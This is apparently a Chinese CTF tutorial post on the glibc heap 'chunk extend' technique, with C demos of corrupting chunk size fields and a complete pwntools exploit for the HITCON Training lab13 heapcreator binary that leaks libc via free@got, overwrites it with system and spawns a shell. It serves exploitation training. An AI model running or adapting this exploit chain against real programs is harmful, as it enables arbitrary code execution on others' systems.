

title: Chunk Extend

date: 2018-04-11 17:35:45

categories:
- CTF
- Chunk-Extend


chunk extend/shrink 是堆漏洞的一种常见的利用手法，与其他堆漏洞的利用相同，chunk extend/shrink 攻击同样需要有可以控制 malloc_chunk 的漏洞。这种利用方法需要以下的先决条件：

- 程序中存在基于堆的漏洞
- 漏洞可以使得 malloc_chunk 能够被攻击者控制


## 原理

该技术依赖于 ptmalloc(aka glibc) 获取 malloc_chunk 的各种属性的宏。

在 ptmalloc 中，获取下一 chunk 块地址即使用当前块指针加上当前块大小，

在 ptmalloc 中，获取前一 chunk 块地址即使用malloc_chunk->prev_size获取前一块大小，然后使用本 chunk 地址减去所得大小。

一般来说，我们很少见到进行 chunk shrink 的操作。所以这里主要介绍 chunk extend 的利用。


## 基本示例1

简单来说，该利用的效果是通过更改第一个块的大小来控制第二个块的内容。

```c
int main(void){
    void *ptr,*ptr1;
    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk
    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域
    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```


## 基本示例2

以下这个示例中，我们使用 0x80 这个大小来分配堆（作为对比，fastbin 默认的最大的 chunk 可使用范围是0x70）。

因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并
    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);  //释放后，chunk1 把 chunk2 的内容吞并掉并一起置入unsorted bin
    ptr1=malloc(0xa0);
    //再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们就可以控制 chunk2 中的内容。
}
```


## 基本示例3

示例3是在示例2的基础上进行的，这次我们先释放 chunk1，然后再修改 unsorted bin 中的 chunk1 的size域。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2
    free(ptr);//首先进行释放，使得chunk1进入unsorted bin
    *(int *)((int)ptr-0x8)=0xb1;//然后篡改chunk1的size域 , 大小包含chunk1和chunk2
    //再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了chunk2 的内容。
    ptr1=malloc(0xa0); 
}
```


## Chunk Extend/Shrink 可以做什么

一般来说，这种技术并不能直接控制程序的执行流程，但是可以导致 chunk overlapping*，*所以我们可以完整的控制这个堆块 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。**如果不存在类似的域也可以通过控制 chunk header 中的数据来实现 fastbin attack 等利用。**


## 例子 HITCON Trainging lab13

### 基本功能

程序大概是一个自定义的堆分配器，每个堆主要有两个成员：大小与内容指针。主要功能如下

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# 覆盖之后释放：
# 会出现 30(低地址) 和 10(高地址) 大小的空闲快
# Create(0x30) 可以实现 覆盖 结构体的Content 指针。
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# 创建之后，结构体在高地址，Content块在低地址，通过写入Content覆盖结构体的指向的Content块为Free()。
# 然后向Content写入地址，即可替换free()地址。

# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```



